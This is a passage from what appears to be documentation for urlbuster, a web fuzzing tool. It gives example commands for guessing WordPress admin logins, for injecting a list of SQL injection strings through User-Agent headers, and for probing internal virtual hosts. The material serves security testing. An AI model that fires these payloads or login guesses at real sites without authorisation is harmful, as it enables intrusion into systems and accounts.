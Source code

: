 ```bash
    'user=somename1' \
    'user=somename2' \
    'user=somename3' \
    'pass=somepass1' \
    'pass=somepass2' \
    'pass=somepass3' \
    'mail=some@mail1.tld' \
    'mail=some@mail2.tld' \
    'mail=some@mail3.tld' \
    'submit=yes' \
  http://www.domain.tld/wp-admin/
```
#### Useragent SQL injections
```bash
$ urlbuster \
  -W /path/to/wordlist.txt \
  --code 5.. \
  --method GET POST \
  --mheader \
    "User-Agent: ;" \
    "User-Agent: ' or \"" \
    "User-Agent: -- or #" \
    "User-Agent: ' OR '1" \
    "User-Agent: ' OR 1 -- -" \
    "User-Agent: \" OR 1 = 1 -- -" \
    "User-Agent: '='" \
    "User-Agent: 'LIKE'" \
    "User-Agent: '=0--+" \
    "User-Agent:  OR 1=1" \
    "User-Agent: ' OR 'x'='x" \
    "User-Agent: ' AND id IS NULL; --" \
  http://www.domain.tld/
```
#### Find potential vhosts
```bash
$ urlbuster \
  -w / \
  --method GET POST \
  --mheader \
    "Host: internal1.lan" \
    "Host: internal2.lan" \
    "Host: internal3.lan" \
    "Host: internal4.lan" \
    "Host: internal5.lan" \
    "Host: internal6.lan" \
  http://10.0.0.1
```


## Disclaimer
